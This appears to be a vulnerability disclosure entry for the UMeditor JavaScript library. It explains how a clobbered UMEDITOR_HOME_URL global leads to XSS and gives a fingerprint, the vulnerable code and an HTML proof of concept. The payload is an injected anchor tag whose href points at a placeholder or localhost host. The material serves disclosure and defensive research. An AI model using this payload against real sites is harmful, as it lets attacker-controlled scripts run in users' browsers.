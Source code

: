 ## UMeditor

### Meta

+ Library: UMeditor
+ Stars: 1.4K
+ Version: v1.2.2
+ Fingerprint: `typeof window.UM !== 'undefined' && UM.hasOwnProperty('version')`
+ Payload: ```<a id="UMEDITOR_HOME_URL" href="https://xxx.xxx.xxx/"></a>```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

https://github.com/fex-team/umeditor

Self hosted.

### Vulnerable Code Snippet

```javascript
var URL = window.UMEDITOR_HOME_URL || ...
```

```javascript
window.UMEDITOR_CONFIG = {

        //为编辑器实例添加一个路径，这个不能被注释
        UMEDITOR_HOME_URL : URL

        ...
```

## PoC

```html
<!--Library-->
<meta http-equiv="Content-Type" content="text/html;charset=utf-8"/>
<title>UMEDITOR 简单功能</title>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
<link href="./themes/default/_css/umeditor.css" type="text/css" rel="stylesheet">
<script type="text/javascript" src="./third-party/jquery.min.js"></script>
<script type="text/javascript" src="./third-party/template.min.js"></script>
<script type="text/javascript" charset="utf-8" src="../umeditor.config.js"></script>
<script type="text/javascript" charset="utf-8" src="editor_api.js"></script>
<script type="text/javascript" src="./lang/zh-cn/zh-cn.js"></script>
<style type="text/css">
h1{
        font-family: "微软雅黑";
        font-weight: normal;
}
</style>
<script type="text/plain" id="myEditor" style="width:800px;height:240px;">
<p>这里我可以写一些输入提示</p>
</script>
<script type="text/javascript">
var um = UM.getEditor('myEditor',{
        //这里可以选择自己需要的工具按钮名称,此处仅选择如下七个
        toolbar:['fullscreen source undo redo bold italic underline'],
        //focus时自动清空初始化时的内容
        autoClearinitialContent:true,
        //关闭字数统计
        wordCount:false,
        //关闭elementPath
        elementPathEnabled:false,
        //默认的编辑区域高度
        initialFrameHeight:300
        //更多其他参数，请参考umeditor.config.js中的配置项
});
</script>
<!--Library-->

<!--Payload-->
<a id="UMEDITOR_HOME_URL" href="https://localhost:9999"></a>
<!--Payload-->
```


